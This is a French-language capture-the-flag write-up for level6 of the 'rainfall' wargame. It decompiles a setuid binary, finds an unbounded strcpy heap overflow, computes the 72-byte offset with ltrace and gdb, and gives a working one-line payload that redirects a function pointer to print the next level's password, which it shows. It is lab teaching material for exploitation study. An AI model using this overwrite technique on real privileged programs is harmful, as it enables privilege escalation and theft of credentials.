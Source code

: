 Je commence par découvrir qui je suis, où je suis, et qu'est-ce qui est à ma disposition :

```
$ id && pwd && ls -la
uid=2064(level6) gid=2064(level6) groups=2064(level6),100(users)
/home/user/level6
total 17
dr-xr-x---+ 1 level6 level6   80 Mar  6  2016 .
dr-x--x--x  1 root   root    340 Sep 23  2015 ..
-rw-r--r--  1 level6 level6  220 Apr  3  2012 .bash_logout
-rw-r--r--  1 level6 level6 3530 Sep 23  2015 .bashrc
-rwsr-s---+ 1 level7 users  5274 Mar  6  2016 level6
-rw-r--r--+ 1 level6 level6   65 Sep 23  2015 .pass
-rw-r--r--  1 level6 level6  675 Apr  3  2012 .profile
```

Je tente de lancer le binaire level6 :

```
$ ./level6
Segmentation fault (core dumped)
```

Je tente avec un input :

```
$ ./level6 da
Nope
```

J'utilise [Dogbolt](https://dogbolt.org/?id=bf99b17b-f29d-4c51-9cac-5055972d80ea) afin de décompiler le binaire du level 6 :

### Ghidra

```c
void n(void) {
  system("/bin/cat /home/user/level7/.pass");
  return;
}

void m(void *param_1,int param_2,char *param_3,int param_4,int param_5) {
  puts("Nope");
  return;
}

void main(undefined4 param_1,int param_2) {
  char *__dest;
  code **ppcVar1;
  
  __dest = (char *)malloc(0x40);
  ppcVar1 = (code **)malloc(4);
  *ppcVar1 = m;
  strcpy(__dest,*(char **)(param_2 + 4));
  (**ppcVar1)();
  return;
}
```

### Hexray

```c
void n() {
  system("/bin/cat /home/user/level7/.pass");
  return;
}

void m() {
  puts("Nope");
  return;
}

int main(int argc, const char **argv, const char **envp) {
  int (**v4)(void); // [esp+18h] [ebp-8h]
  char *v5; // [esp+1Ch] [ebp-4h]

  v5 = (char *)malloc(0x40u);
  v4 = (int (**)(void))malloc(4u);
  *v4 = m;
  strcpy(v5, argv[1]);
  return (*v4)();
}
```

J'extrapole le résultat du main de `Ghidra` et celui d'`Hexray`, particulièrement son appel à la structure `code`, et en déduit le pseudo-code suivant :

```c
int main(int argc, char **argv) {
  char *string;
  void (**ptr2func_ptr)(void);

  string = (char *)malloc(64);
  ptr2func_ptr = (void (**)(void))malloc(4);

  *ptr2func_ptr = m;
  strcpy(string, argv[1]);
  (*ptr2func_ptr)();
}
```

Je peux donc maintenant me concentrer sur les vulnérabilités que ce code présente. Ici, cela ressemble au premier level de `rainfall`, la particularité étant que la vulnérabilité ici semble être `strcpy`. Ce dernier ne prend pas de taille limite, et il utilise l'argument passé au binaire pour la copie.

Je me penche donc sur ce point d'entrée possible.
Je note également qu'il n'est pas question ici de la `stack`, mais de la `heap` puisque `malloc()` est utilisé.

Etant donné que la string est alloué sur la `heap` mais également le pointeur de pointeur sur function, alors je peux exploiter une vulnérabilité donc le but serait d'overflow la `heap` afin de ré-écrire où le pointeur de pointeur sur function pointe.

Ici, il s'agirait d'overflow `string` au moment de `strcpy()` en passant un argument `argv[1]` trop grand pour `string`.
Cet overflow aura pour but de ré-écrire ce sur quoi les 4 bytes alloué au pointeur sur fonction pointeront donc désormait.

Afin de construire un payload infecté, il me faut calculer la distance entre ces deux allocations sur la `heap`. J'utilise `ltrace` pour simplifier ce processus :

```
$ ltrace ./level6 da
__libc_start_main(0x804847c, 2, 0xbffff7f4, 0x80484e0, 0x8048550 <unfinished ...>
malloc(64)                                                                = 0x0804a008
malloc(4)                                                                 = 0x0804a050
strcpy(0x0804a008, "da")                                                  = 0x0804a008
puts("Nope"Nope
)                                                              = 5
+++ exited (status 5) +++
```

Je peux calculer la distance : `0x0804a050 - 0x0804a008 = 0x48 (72 in decimal)`

Il faut donc que mon payload remplisse le buffer de 64 bytes, puis 8 bytes de bruit pour atteindre 72 et que les prochaines écriture ré-écrive sur l'adresse du pointeur sur fonction.

Je cherche maintenant l'adresse de la fonction `n()` avec `gdb` :

```
$ gdb ./level6
(gdb) disas n
Dump of assembler code for function n:
   0x08048454 <+0>:     push   %ebp <-------------- ici
   0x08048455 <+1>:     mov    %esp,%ebp
   0x08048457 <+3>:     sub    $0x18,%esp
   0x0804845a <+6>:     movl   $0x80485b0,(%esp)
   0x08048461 <+13>:    call   0x8048370 <system@plt>
   0x08048466 <+18>:    leave
   0x08048467 <+19>:    ret
End of assembler dump.
```

L'adresse de `n()` est : `0x08048454`.

Il ne me reste donc plus qu'à construire le payload.
Ce dernier aura pour but de remplir le buffer alloué dans la `heap` pour string, ajouter du bruit jusqu'atteindre l'endroit dans la `heap` où est écrit l'adresse de ce sur quoi pointe le pointeur sur fonction (pour le moment `m()`) et remplacer cette dernière par l'adresse de `n()`.

De manière similaire au précedents level, voici le payload qui exploite cette vulnérabilité :

```python
python -c 'print("\x90"*72 + "\x08\x04\x84\x54"[::-1])'
```

- Padding de 72 instructions `NOP` (no operations)
- L'adresse de `n()`

J'essaye ce payload :

```
$ ./level6 `python -c 'print("\x90"*72 + "\x08\x04\x84\x54"[::-1])'`
f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
```

